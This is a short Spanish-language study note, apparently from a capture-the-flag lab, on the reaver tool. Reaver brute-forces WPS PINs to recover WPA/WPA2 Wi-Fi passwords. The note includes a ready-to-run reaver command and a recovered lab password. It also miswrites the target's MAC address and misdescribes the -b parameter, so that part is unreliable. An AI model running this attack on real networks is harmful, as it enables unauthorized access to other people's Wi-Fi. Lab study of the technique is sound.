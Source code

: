 #reaver

--------

Es una herramienta que ataca redes Wi-Fi con **WPS activado**, forzando el PIN para obtener la contraseña **WPA/WPA2**. Aprovecha una vulnerabilidad en el protocolo WPS que permite adivinar el PIN en pocas horas. Solo funciona si el router tiene WPS habilitado y sin protección contra intentos.

----
# Como usar
Primero vamos a usar [[ifconfig]] con el comando `ifconfig` para ver los datos de la interfaz y su numero de direccion mac
![[Wifinetic10.png]]
Nombre de la interfaz: *mon0* y direccion MAC *02-00-00-00-02-00-30-3A-00-00-00-00-00-00-00-00*

```
reaver -i Interfaz -b DireccionMac -vv
Ejempplo: reaver -i mon0 -b 02-00-00-00-02-00-30-3A-00-00-00-00-00-00-00-00 -vv
```
*Parametros:*
	`-i` Es para colocar la interfaz que queremos analizar
	`-b` Se coloca la direccio mac, de la interfaz
	
*Parametros opcionales*
	`-vv` El doble verbose es para que muestre todo con mas detalle


![[Wifinetic11.png]]
Obtenemos la contraseña: *WhatIsRealAnDWhAtIsNot51121!*